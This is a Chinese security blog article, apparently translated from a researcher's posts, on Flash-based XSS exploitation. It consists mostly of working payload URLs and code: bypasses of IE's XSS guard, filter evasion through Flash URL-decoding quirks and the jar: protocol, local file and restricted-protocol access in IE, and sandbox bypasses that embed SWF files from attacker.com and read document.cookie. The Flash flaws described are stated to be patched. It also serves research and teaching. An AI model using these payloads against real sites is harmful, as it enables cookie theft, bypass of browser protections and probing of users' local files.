


# 一些你可能不知道的 Flash XSS 技巧

2014/02/19 10:16 | [mramydnei](http://drops.wooyun.org/author/mramydnei "由 mramydnei 发布") | [web 安全](http://drops.wooyun.org/category/web "查看 web 安全 中的全部文章"), [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章") | 占个座先 | 捐赠作者

## 0x00 前言

* * *

原文链接

[`soroush.secproject.com/blog/2013/10/catch-up-on-flash-xss-exploitation-bypassing-the-guard ians-part-1/`](http://soroush.secproject.com/blog/2013/10/catch-up-on-flash-xss-exploitation-bypassing-the-guard%20ians-part-1/)

[`soroush.secproject.com/blog/2013/10/catch-up-on-flash-xss-exploitation-part-2-navigatetourl- and-jar-protocol/`](http://soroush.secproject.com/blog/2013/10/catch-up-on-flash-xss-exploitation-part-2-navigatetourl-%20and-jar-protocol/)

[`soroush.secproject.com/blog/2014/01/catch-up-on-flash-xss-exploitation-part-3-xss-by-embed ding-a-flash-file/`](http://soroush.secproject.com/blog/2014/01/catch-up-on-flash-xss-exploitation-part-3-xss-by-embed%20ding-a-flash-file/)

可能在你打开这个博客的时候会有一丝的熟悉感。对,这就是那个发现 FCK 2.6.8 ASP 版二次上传漏洞的人。博主是个很有意思的人,经常会在通知厂商修复之前就在演讲稿子里或文章中放出一些危害比较大的 0day。如果你之前没有关注过这个人,也许在今后的日子里关注他会让你有一些意外的收获。

## 0x01 绕过 IE 对 Flash XSS 的保护机制

* * *

在经过一些小的测试后发现，似乎只有 IE 会对下面这种 Flash XSS 进行拦截。如果你用 IE10 打开下面的链接:

```
http://0me.me/demo/xss/xssproject.swf?js=alert(document.domain); 
```

那么应该会在控制台（用 F12 来打开它）看到 Access is denied 的信息。如果你尝试用 chrome,Firefox 或 opera 来打开这个连接的话，不出预料小框应该会毫无阻碍的弹起来。

然后我想到了一个办法可以绕过 IE 的这种限制：

```
http://0me.me/demo/xss/xssproject.swf?js=location.href='javascript:x="<script>alert(document.domain)</script>"' 
```

URL 中的“javascript:x="echo"”可以让我们在当前页面输出这个 echo。而且我们可以向上面的例子那样包含一些 HTML 标签，进而绕过这种限制。

## 0x02 利用 Flash 的 URL 解码功能来绕过一些保护机制

* * *

如果你需要将你的 vector 发送到藏在防火墙的后面受害者（flashvars 可以使用#来达到隐藏自己的目的）又或者想突破一些客户端的 XSS 防御机制这个方法将会十分的凑效。这一切都基于 flash 会丢弃一些被 URL 编码过的无效字符。

(1)flash 会丢弃两个出现在%后面的无效十六进制字符（([⁰-9a-fA-F])），比如：

```
"%X" or "%=" 
```

(2)如果在%后面出现一个有效和一个非有效十六进制字符，就会丢弃三个字符，比如：

```
"%AX" or "%A&" 
```

#### 小记：有时候 ASCII 值大于 127 的一些字符会被转换成问号。当然这是发生在 URL 跳转的时候。除此之外，被编码过的 BOM 字符(“%EF%BB%BF”) 也可以用来替换空格。举个例子来说,我们可以把“alert(1)”写成“alert%EF%BB%BF(1)” 。

最后把这些都组合起来：

```
http://0me.me/demo/xss/xssproject.swf?%#js=al%A#e%Xrt(docum%A#ent.doma%A#in);

http://0me.me/demo/xss/xssproject.swf?%I%R%S%D%%Ljs=loca%Xtion.hr%Yef='jav%Zascri %AXpt:x="<sc%AYript>ale%AZrt(docu%?ment.dom%/ain)</sc%&ript>"' 
```



成功了！我使用这个 trick 也绕过了 noscript，不过这个漏洞已经在 2.6.6.8 修复了。

## 0x03 真正的“勇士“jar 协议

* * *

flash 会忽略 jar 协议并让它变成一个透明的协议。换句话来说 `javascript:alert(1)` 和 `jar:javascript:alert(1)` 在 actionscript 中是完全一样的。这意味着我们可以使用这个方法来绕 过一些黑名单的检测。让我们先举一个存在漏洞的例子:

```
varinput:String = root.loaderInfo.parameters.input; // input variable 
vardangerousInput:RegExp = /^\w\*script:.\*/i; // to cover javascript: and vbscript: protocols! 
if(!dangerousInput.test(input)) 
{ 
    // Safe to go?!!! --> No! What about "jar:javascript:"? 
    navigateToURL(newURLRequest(input),"_self"); // redirection 
} 

```

我们就可以使用先前提到的方法来绕过这个检测：



```
http://0me.me/demo/xss/flash/link_protocol_test.swf?input=jar:javascript:alert(1);// 
```

当然还有一个我认为是广为熟知的技巧,就是在 firefox 里使用 data URI。

## 0x04 使用“navigateToURL”来突破本地域的访问限制

* * *

在默认设置当中 flash 不会允许你去访问一些比较敏感的协议(通过 navigateToURL), 如:“File://” 或 “Ms-its:” 如果你直接尝试访问下面的链接:

```
http://0me.me/demo/xss/flash/link_protocol_test.swf?input=file://c:\ 
```

你就会收到这样的错误信息:

```
SecurityError: Error #2148: SWF file http://0me.me/demo/xss/flash/link\_protocol\_test.swf?input=file://c:\ cannot access local resource file://c:\. Only local-with-filesystem and trusted local SWF files may access local resources. 
at global/flash.net::navigateToURL() 
at MethodInfo-1() 
at flash.events::EventDispatcher/dispatchEventFunction() 
at flash.events::EventDispatcher/dispatchEvent() 
at com.powerflasher.SampleApp::link\_protocol\_test() 
```

我尝试着在 chrome,firefox 和 IE 中使用 jar 协议来绕过这一限制，但是我并没有在前两个浏览器中成功。这也就意味着这种方式只适用于 IE。下面是一些 bypass 的例子:

利用 jar 协议访问 C 驱动器:

```
http://0me.me/demo/xss/flash/link_protocol_test.swf?input=jar:file:/c:\ 
```

打开 C 驱动器中的某个文件:

```
http://0me.me/demo/xss/flash/link_protocol_test.swf?input=jar:file:/c:\windows\Starter.xml 
```

开启一些被限制的协议:

```
http://0me.me/demo/xss/flash/link_protocol_test.swf?input=jar:shell:cookies

http://0me.me/demo/xss/flash/link_protocol_test.swf?input=jar:mk:@MSITStore:C:\Windows\Help\mui\0409\certmgr.CHM::/html/355962c2-4f6b-4cbd- ab00-6e7ee4dddc16.htm 
```

利用其它的一些技巧来访问 C 驱动器:

```
http://0me.me/demo/xss/flash/link_protocol_test.swf?input=\\/c:/ 
```

### 那么一旦这些限制被突破后，又会给用户带来什么样的风险呢？

```
1.被使用于一些敏感的本地文件探测（探测杀毒软件的类型和版本等等） 
2.通过目录和文件来收集用户信息 
3.使用 drag and drop 来劫持一些敏感的本地文件（我没有办法在这里给出一些给力的 POC） 
4.代替用户来执行一些危害较大的本地文件（html.,swf 等等）。进而实现数据的盗取，远程代码执行或一些其它猥琐的事情。 
```

最后再献上一个可以弹开你的 CD-ROM 的 POC(测试于 IE10)，就像一些老的病毒一样，试试看吧！

[`0me.me/demo/xss/flash/open_cdrom.html`](http://0me.me/demo/xss/flash/open_cdrom.html)

## 0x05 绕过 flash 沙箱

* * *

我们都知道 navigateToURL 和 getUR 在 flash XSS 当中都是一些很常用的手段。但是大前提就是我们需要一个 allowScriptAccess 来得到脚本访问的许可。下面我将演示如何在不使用 allowScriptAccess 前提下让脚本运行起来。但是在这之前我们先要了解一下，使用 allowScriptAccess 的方法应该是什么样的。

首先是 flash 中 AS 代码的部分，我将分别给出 AS2 和 AS3 的例子。

AS3:

```
navigateToURL(new URLRequest("javascript:alert(document.domain);"),"_self");

```

AS2：

```
getURL("javascript:alert(document.domain)","_self");

```

然后我们的 HTML 页面看上去，应该像这样：

```
<objectwidth="320"height="240"classid="clsid:d27cdb6e-ae6d-11cf-96b8-444553540000"codebase="http://download.macromedia.com/pub/shockwave/cabs/flash/swflash.cab#version=6,0,40,0"><paramname="allowScriptAccess"value="always"/><paramname="src"value="http://www.attacker.com/testme/flashtest/normalEmbededXSS.swf"/><embedwidth="320"height="240"type="application/x-shockwave-flash"src="http://www.attacker.com/testme/flashtest/normalEmbededXSS.swf"allowScriptAccess="always"/></object> 

```

当然我们也可以试着让它变得更简短一些：

```
<object width="320" height="240" classid="clsid:d27cdb6e-ae6d-11cf-96b8-444553540000" codebase="http://download.macromedia.com/pub/shockwave/cabs/flash/swflash.cab#version=6,0,40,0"><param name="src" value="//www.attacker.com/testme/flashtest/normalEmbededXSS.swf" /><embed width="320" height="240" type="application/x-shockwave-flash" src="//www.attacker.com/testme/flashtest/normalEmbededXSS.swf" /> 

```

但是这个例子在 IE 下会报错，如果想看详细的错误信息你可以尝试使用 debugger 版本的 flash.但是我们可以使用 embed 标签，就像下面这样：

```
<object width="320" height="240" classid="clsid:d27cdb6e-ae6d-11cf-96b8-444553540000" codebase="http://download.macromedia.com/pub/shockwave/cabs/flash/swflash.cab#version=6,0,40,0"><param name="allowscriptaccess" value="always" /><param name="src" value="//0me.me/demo/xss/flash/normalEmbededXSS.swf" /><embed width="320" height="240" type="application/x-shockwave-flash" src="//0me.me/demo/xss/flash/normalEmbededXSS.swf" allowscriptaccess="always" /></object> 

```

在对使用 allowScriptAccess 的方法有了一些初步的了解之后，让我们看看如果不使用它我们会碰到哪些问题。

1.navigateToURL 或 getURL 所要跳转的页面不能设定为 null/empty, “_self”, “_parent”, “_top”.

```
navigateToURL(new URLRequest("http://google.com/"),"_self"); 

```

2.我们不能使用 javascript 来完成跳转

```
navigateToURL(new URLRequest("javascript:alert(document.domain);"),"testme");

```

看上去第一个问题并不是那么难解决。我们可以使 IFrame name, window.open, a 标签的 target,或 form 的 target 等技巧来解决这个问题。而第二个问题我们恰好可以使用之前 flash 会忽视 jar 协议的特性来解决。现在让我们试着把这些东西整合到一起。

AS3 示例：

```
navigateToURL(new URLRequest("jar:javascript:alert('domain: '+document.domain+'\\r\\nCookies: '+document.cookie);"),"testme"); 

```

AS2 示例：

```
getURL("jar:javascript:alert('domain: '+document.domain+'\\r\\nCookies: '+document.cookie);","testme"); 

```

最后让我们来完成它。假设有一个存在 XSS 漏洞页面如下：

```
http://www.sdl.me/xssdemo/xss.asp?input=XSS_goes_here 
```

如果我们不使用 name,那么下面的方法只能应用于 firefox。

```
http://www.sdl.me/xssdemo/xss.asp?input=<embed src=http://0me.me/demo/xss/flash/embededXSS.swf> 
```


但是我们也可以使用 name 来让它变得可以在其它浏览器中执行。

```
<iframe name="testme" src="http://www.sdl.me/xssdemo/xss.asp?input=<embed src=http://0me.me/demo/xss/flash/embededXSS.swf>" height="240" width="320"></iframe>

```

这里的 embed 标签也可以被 object 标签所取代。不过最终 Adobe 出了个新补丁封杀了 jar 协议。印象中是上个月的 17 号出的。所以如果你想亲自测试一下可能需要你手动安装稍微老的 flash 版本。如果你是 kali linux 用户，并且喜欢使用 firefox 那么这个绕过 flash 沙箱的方法对你来说应该是轻易可以实现的（我没有特意去更新 FF 的 flash 插件，所以在我这里一直是可以用这个方法的）。

版权声明：未经授权禁止转载 [mramydnei](http://drops.wooyun.org/author/mramydnei "由 mramydnei 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [一次 SWF XSS 挖掘和利用](http://drops.wooyun.org/papers/44)
*   [一种自动化检测 Flash 中 XSS 方法的探讨](http://drops.wooyun.org/tips/1985)
*   [XSS 挑战第二期 Writeup](http://drops.wooyun.org/papers/938)
*   [XSS Filter Evasion Cheat Sheet 中文版](http://drops.wooyun.org/tips/1955)
*   [上传文件的陷阱 II 纯数字字母的 swf 是漏洞么?](http://drops.wooyun.org/tips/2554)
*   [DedeCMS 最新通杀注入(buy_action.php)漏洞分析](http://drops.wooyun.org/papers/979)